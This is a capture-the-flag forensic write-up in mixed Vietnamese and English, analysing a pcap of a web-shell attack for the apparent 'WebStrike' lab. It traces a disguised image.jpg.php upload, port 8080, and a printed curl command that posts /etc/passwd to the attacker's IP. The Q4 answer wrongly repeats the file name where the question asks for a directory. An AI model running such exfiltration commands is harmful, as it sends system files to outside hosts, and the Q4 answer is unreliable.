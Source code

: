 #  WebStrike

> An anomaly was discovered within our company's intranet as our Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis for the security team, and you have been tasked with analyzing the pcap.

> Tools: Wireshark

## Q1: Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?

+ attacker xác định qua conversations port của ip attacker là 117.11.88.124

  ![360945199-7a13e7e8-83a4-43a5-974e-5095b29b656d](https://github.com/user-attachments/assets/c01a73e6-9884-4769-85fb-029fb1cc00e4)


=> xác định xong bên connect là attacker đến victim location ta sẽ check trên Internet protocol trên detail 

![360945586-c79940d2-6a43-4b22-b2c6-2c23b44a70b0](https://github.com/user-attachments/assets/6856c653-c147-472c-aa84-ee153a2b15ac)

=> Anwser : city_Tianjin

## Q2: Knowing the attacker's user-agent assists in creating robust filtering rules. What's the attacker's user agent?

+ xác định user-agent là thông tin về browser của attacker ip ta cần check về thông tin gói tin HTTP get request

+ gói tin GET sẽ chứa dữ liệu của ip attacker source đang send request đến victim

 ![360947075-02d4cec8-eede-4a93-9455-003b5c35f3ba](https://github.com/user-attachments/assets/ae8c36e0-886d-4c6d-920f-3334bd2c4e1b)


=> ip attacker đang vào trang shoporoma với user-agent

=> Anwser: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

## Q3: We need to identify if there were potential vulnerabilities exploited. What's the name of the malicious web shell uploaded?

+ xác định tên web shell được upload lên hệ thống => ta cần tìm response trả về file upload

+ file upload thường sẽ sử dụng method post để upload file

![360957563-352630a3-167c-4a2a-946c-b08c4b9f3b73](https://github.com/user-attachments/assets/676cb14a-c45e-4e88-a73b-d025d0ebfd52)


=> ta có thể thấy file đã trả về upload successful nên ta có thể nhận định file name = image.jpg.php có thể nó bypass extension filter format 

=> Anwser: image.jpg.php 

## Q4: Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store the uploaded files?

+ trong web thì thư mục sẽ được lưu trữ ở root directory cụ thể trên web server => /html/www

+ với file đã uploads ta có thể xác định nó lưu trữ ở mục /uploads/ nhưng ta cần phải check cả gói tin vì có thư mục cha đằng trước nó

 ![360959327-1cf0a1e0-6d0c-45d2-8810-7017a3fca8ad](https://github.com/user-attachments/assets/3a1c4f21-88a6-4876-9852-3a9bc45504ce)

=> path /reviews/uploads/image.jpg.php => /reviews/uploads/ đang lưu trữ image.jpg.php

=> Anwser: image.jpg.php 

## Q5: Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell? 

+ conversations cho ta thông tin về port 8080 đang chiếm nhiều lưu lượng gói tin nhất trong traffic

+ nhận định port 8080 thường là port dự phòng do attacker tạo ra để tránh phát hiện hệ thống giám sát trên các port thông thường và giảm xung đột

  ![360961262-70024d7d-4de5-433a-9bf3-cc3b46ec81bf](https://github.com/user-attachments/assets/4bd79f33-f089-4b01-9509-354aefb5cab8)

=> có vẻ sau khi uploads shell code attacker đã thực thi 1 số command trên port lắng nghe là 8080 

=> Anwser: 8080 

## Q6: Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?

+ qua Q5 ta thấy attacker đang cố gắng trích xuất ra file chứa thông tin về user của hệ thông bằng /etc/passwd

+ có thể attacker đang cố gắng lấy đi tệp tin đó bằng câu lệnh

      curl -X POST -d /etc/passwd http://117.11.88.124:443/

=> Anwser: passwd
